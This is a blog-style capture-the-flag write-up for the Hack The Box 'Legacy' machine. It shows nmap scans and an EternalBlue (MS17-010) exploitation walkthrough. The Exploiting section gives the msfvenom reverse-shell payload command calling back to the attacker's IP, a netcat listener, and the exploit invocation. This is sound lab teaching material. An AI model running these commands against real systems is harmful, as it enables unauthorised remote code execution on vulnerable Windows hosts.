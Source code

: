 ```yaml
---
title: "Legacy"
date: 2023-06-26T00:50:22+02:00
tags: ["smb","windows"]
categories: ["hackthebox"]
author: "Ro Hackss"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A windows room that has vulnerable samba service running."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Legacy
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Legacy

![Untitled](/HTB/legacy-icon.png)

## Tools Used

- Nmap
- Msfvenom
- Github

## Port Scanning

First we need to do a port scan to know what are we trying to exploit.

```bash
PORT    STATE SERVICE     REASON          VERSION
135/tcp open  msrpc       syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open              syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-06-30T18:16:12+03:00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29179/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 8957/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b9:90 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00:50:56:b9:b9:90:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Look like we have two smb ports the 139,445 so we are going to focus on them.

## Enumeration

With `sudo nmap 10.10.10.14 -p 139,445 --script=vuln` I am going to see if nmap can see some vulnerabilities.

```bash
Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (sudo)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
```

I found two possible vulnerabilities the MS17-010 (CVE-2017-0143) and MS08-067 (CVE-2008-4250) but because I have SMB v1 I am going to exploit the first one.

## Exploiting

The CVE-2017-0143 or better called Eternal Blue is a vulnerability that allows us to exploit the Microsoft’s implementation of the Server Message Block (SMB) protocol with a crafted package to have RCE in the victim machine. 

I can exploit the machine easily with metasploit but I am going to try another way more oscp friendly.

If we google MS17-010 we can found a git repository: https://github.com/helviojunior/MS17-010.git

```bash
git clone https://github.com/helviojunior/MS17-010.git
```

Once we cloned the exploit let’s get a reverse shell with mfsvenom (Legal in OSCP).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > eternalblue.exe
```

With a listener and sending the reverse shell with the help of the exploit we are able to own the machine.

```bash
nc -lv 4444
```

```bash
python send_and_execute.py 10.10.10.4 ~/Documents/exploits/eternalblue.exe
```

## Gaining an Initial Foothold

We are in now, with `dir user.txt /s` and `dir root.txt /s` we can know where is the flags.

![Untitled](/HTB/legacy-1.png)

![Untitled](/HTB/legacy-2.png)

## Lessons Learned

- What insights did you gain from the room?
    
    Now, we know how to perform a windows samba attack with the eternal blue vulnerability that allows me to RCE the victim machine.
    
- Were there any novel tools or techniques employed?
    
    I performed a CVE-2017-0143 exploit and msfvenom reverse shell.

**Thank you for reading, and happy hacking! 😄**
